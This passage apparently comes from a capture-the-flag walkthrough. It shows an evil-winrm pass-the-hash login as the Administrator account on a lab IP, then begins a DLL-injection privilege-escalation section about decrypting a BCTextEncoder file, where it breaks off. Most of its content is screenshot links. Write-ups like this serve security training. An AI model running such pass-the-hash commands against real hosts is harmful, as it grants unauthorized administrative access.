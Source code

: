 
![image48](../resources/f08e7de64873414dacfdfeb61783e000.png)

```bash
evil-winrm -u Administrateur -H "584d96946e4ad1ddfa4f8d7938faf91d" -i 10.129.242.35

```
**<u>Priv Esc Method 2: API Hooking - DLL Injection</u>**

- In the /private directory, we can see an encrypted file that was encrypted using BCTextEncoder

![image49](../resources/ae2bf0f8b76e46a28b1c28a1a6e37988.png)

- Download BCTextEncoder.exe.exe:

![image50](../resources/ff713f6eedc14846810160fdd4469a7b.png)

- Running the program, we can see that we need to provide a password (I opened a windows server vm to test on)

